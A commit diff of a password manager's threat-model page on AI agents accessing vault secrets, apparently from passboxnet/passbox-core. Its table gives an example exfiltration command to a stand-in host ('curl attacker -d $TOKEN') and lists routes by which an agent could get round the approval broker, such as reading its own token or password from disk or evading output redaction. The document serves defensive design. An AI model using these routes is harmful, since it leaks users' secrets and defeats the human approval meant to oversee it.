

Before and after one commit to passboxnet/passbox-core, a Markdown page: docs/architecture/ai-agents.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
e2e: service accounts and agent approval; refuse approvals from CLI sessions

```diff
--- a/docs/architecture/ai-agents.md
+++ b/docs/architecture/ai-agents.md
@@ -74,7 +74,7 @@ Assets: secret values in the vault; the integrity of what runs with them; the pe
 | **Exfiltration through command output** (`echo $TOKEN`, `env`, `base64`) | Output is redacted for every injected value as is, Base64 (standard/URL, with and without padding), hex and percent-encoded; long multi-line values also line by line; output is capped at 32 KB per stream. | Transformations the redactor does not know (reversed, compressed, split, partially printed) pass. Redaction is a safety net, not the boundary; the approval of the command is. |
 | **Exfiltration through the network** (`curl attacker -d $TOKEN`) | The approval shows the command line; prefix allowlists cannot be extended with shell operators. | An allowed program can itself send data anywhere (for example a deploy script under the agent's control). A network allowlist or sandbox per grant is planned, not built. |
 | **The agent reads the secret through the file system** after `passbox_inject` | `inject` needs approval per output path; files are written 0600. | The agent usually runs as the same user and can read the file. Use `run` when you can; inject only into paths the agent will not read. |
-| **The agent answers its own approval** | No terminal prompt and no CLI approve command: decisions come only from the web or desktop app, signed with the account key that never leaves those apps. | A compromised device that is signed in to your account can approve. |
+| **The agent answers its own approval** | No terminal prompt and no CLI approve command: decisions come only from the web or desktop app, signed with the account key; the server also refuses decisions from CLI sessions. With a service account token, `pbx mcp` holds no key that can sign an approval at all. | A compromised device that is signed in to your account can approve. Without a service account, `pbx mcp` unlocks your account with `PASSBOX_PASSWORD`, so a process that reads that password has your whole account, including the key that signs approvals: use a service account. |
 | **A malicious or compromised server** approves, changes or replays requests | Decisions are signed by the account key and bound to the hash of the exact request bytes; the approving app displays what it parsed from those bytes; the broker verifies. | The server can withhold requests or decisions (denial of service) and sees metadata (who asked, when, which item IDs, client names). |
 | **Agent reads credentials from disk** (MCP config with a token or `PASSBOX_PASSWORD`, `pbx` data directory) | `pbx mcp` scrubs `PASSBOX_PASSWORD`, `PASSBOX_SERVICE_ACCOUNT_TOKEN`, `PASSBOX_TWO_FACTOR_CODE` and `PASSBOX_SECRET_KEY` from every command it runs. Recommended setup: a dedicated service account with read access to one small vault, with an expiry. | An agent that can run arbitrary shell commands as your user can read its own MCP configuration and use the token directly with `pbx`, bypassing the broker. The token then gives exactly what the service account has: keep it small, set an expiry, and restrict the agent's file access (Claude Code permissions, sandboxing). Server-enforced approvals for agent principals are planned (K11). |
 | **Approval fatigue** | Grants with an allowlist cover a task (default 1 hour); single-use grants for everything else; pending requests expire after 10 minutes; at most 10 pending per account and 30 requests per 10 minutes per principal. | People approve what they see often. |
```
